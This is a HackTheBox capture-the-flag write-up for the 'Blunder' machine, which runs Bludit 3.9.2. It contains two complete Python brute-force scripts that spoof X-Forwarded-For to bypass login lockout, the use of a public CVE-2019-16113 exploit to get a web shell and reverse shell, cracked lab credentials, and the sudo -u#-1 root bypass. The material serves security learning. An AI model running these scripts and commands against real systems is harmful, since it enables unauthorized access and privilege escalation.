## Reconnaissance

### nmap 

```
nmap -sC -sV -oN light 10.129.95.225
```



### Web Service 


### Gobuster 

```
gobuster dir -u http://10.129.95.225 -w /usr/share/wordlists/dirb/common.txt -o web.out
```



> Check /robots.txt 



> Check admin page, it will redirect to /admin/login
> The page title show - BLUDIT



> Search the page title --> find that it might be a CMS framework 

- [Bludit](https://www.bludit.com/)



> Keep enumerating the path based on /cgi-bin
```
gobuster dir -u http://10.129.95.225/cgi-bin -w /usr/share/wordlists/dirb/common.txt -o web2.out
```
```
gobuster dir -u http://10.129.95.225/cgi-bin/cgi-bin -w /usr/share/wordlists/dirb/common.txt -o web3.out
```



> The above 2 testing, I think /cgi-bin is a false positive result
> I use another wordlist to enumerate again, 
> with previous experience, I tried to use big.txt

```
gobuster dir -u http://10.129.95.225 -w /usr/share/wordlists/dirb/big.txt -x txt -b 403,404 -o web4.out
```



> With these results, I tried to access todo.txt
> Find a potential user - fergus 



### Research Bludit 

> Research the exploit code for Bludit 
> it has a potential risk for the following version 

```
searchsploit bludit
```
1. 3.9.2
2. 3.9.12
3. 3.13.1
4. 3.14.1
5. 4.0.0-rc-2



> Check the page source for home page -> I can find the version in bl-kernel is 3.9.2



> Check the admin login page's source --> I also find the same version number



> Reading the source code from GITHUB
> I have the following finding, the version number might be the BLUDIT_VERSION

- [(GITHUB)Bludit](https://github.com/bludit/bludit/tree/v3.0)











> So the target BLUDIT version number is 3.9.2 
> With this version number, I target the exploit code on the following

1. Authentication Bruteforce Mitigation Bypass
2. Directory Traversal




> Search exploit code from internet 

- [(ExploitDB)Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass](https://www.exploit-db.com/exploits/48746)

> According to the following article, I can do the bruteforce with user - fergus by following code 

- [Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)

> The bruteforce code from rastating.

- [Remove use of headers that can be used to bypass anti-brute force controls](https://github.com/bludit/bludit/pull/1090)

```
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
    wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
@dignajar

```


## Exploit 


> Copy Exploit code 

- [Remove use of headers that can be used to bypass anti-brute force controls](https://github.com/bludit/bludit/pull/1090)

> For finishing the bruteforce, I need some wordlist 
> After checking this article, I choose to use Cewl to crawl the target web service to generate the wordlist

- [5 Ways to Create Dictionary for Bruteforcing](https://www.hackingarticles.in/5-ways-create-dictionary-bruteforcing/)



> Wordlists 

```
cewl http://10.129.95.225 -w dict.txt
```



> With the wordlst, I do some modified, here is my code 

```
#!/usr/bin/env python3
import re
import requests

host = 'http://10.129.95.225'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []
f = open('/home/kali/Desktop/HTB/lab/blunder/dict.txt')
for line in f.readlines():
    wordlist.append(line.strip())
f.close

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```

> Result





> Find password

```
fergus / RolandDeschain
```

> With this credential, I can login to admin page



> I do more research and find this exploit code
> It will bruteforce first then create a web shell

- [(GITHUB)CVE-2019-16113](https://github.com/0xConstant/CVE-2019-16113)

> I just download and executed the code 

```
git clone https://github.com/0xConstant/CVE-2019-16113.git
```







> Following the result, I can access to the URL to get reverse shell



> Check nc listener
> I got reverse shell



> Check current user - www-data



## Privilege Escalation 

> First, I need to get low-leverl user permission
> With www-data, I can't read file in user directory in /home





> I don't have permission to check sudo permission list, either.



> I start to check the web service directory 

```
/var/www/bludit-3.9.2
```



> Find a interesting file - users.php
> There are 2 credential 

1. Admin 
2. fergus

> But I can't break any password hash in here.



> Then, I keep enumerating, until I found the other version of bludit's directory in /var/www

```
/var/www/bludit-3.10.0a
```



> Keep enumerating it, I found  the structure is similar to 3.9.2



> So, I also can find the same file - users.php
> And I found another credential - hugo



> The password hash is crackable 



> I got the hugo's password

```
hugo / Password120
```

> I used the following command to make the user www-data escalate to  hugo

1. Get full interactive shell by python
```
python -c 'import pyt;pty.spawn("/bin/bash")'
```
2. Change user to hugo
```
su - hugo 
```



> Get user flag 



> Check sudo permission 
> With the result, I think ... maybe it means hugo has fully permission to execute /bin/bash

```
sudo -l 
```



> I also do some research and found the following exploit code 

- [(ExploitDB)sudo 1.8.27 - Security Bypass](https://www.exploit-db.com/exploits/47502)



> First, I confirm the sudo version 

```
sudo -V 
```



> Then I followed the instruction in this exploit code to get root 

```
sudo -u#-1 /bin/bash
```



> Get root permission 



> Get root flag 



## Reference 

### Bludit

- [Bludit](https://www.bludit.com/)
- [(GITHUB)Bludit](https://github.com/bludit/bludit/tree/v3.0)
- [(Writeup)Blunder](https://0xdf.gitlab.io/2020/10/17/htb-blunder.html)
#### Exploit 

- [(ExploitDB)Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass](https://www.exploit-db.com/exploits/48746)
- [Bludit Brute Force Mitigation Bypass](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)
- [Remove use of headers that can be used to bypass anti-brute force controls](https://github.com/bludit/bludit/pull/1090)



- [(GITHUB)CVE-2019-16113](https://github.com/0xConstant/CVE-2019-16113)
### BruteForce - Wordlists 

- [5 Ways to Create Dictionary for Bruteforcing](https://www.hackingarticles.in/5-ways-create-dictionary-bruteforcing/)

### Privilege Escalation 

- [(ExploitDB)sudo 1.8.27 - Security Bypass](https://www.exploit-db.com/exploits/47502)
### Python command 

- [Python - strip](https://www.runoob.com/python/att-string-strip.html)
- [Python 讀取 txt 文字檔，一篇搞懂！](https://shengyu7697.github.io/python-read-text-file/)

### Linux Command 

- [Cat Command Display Line Numbers in Linux/Unix](https://www.cyberciti.biz/faq/cat-line-numbers-and-ranges-under-unix-linux/)
### Tools 

- [CrackStation - Free Password Hash Cracker](https://crackstation.net/)

###### tags: `HackTheBox`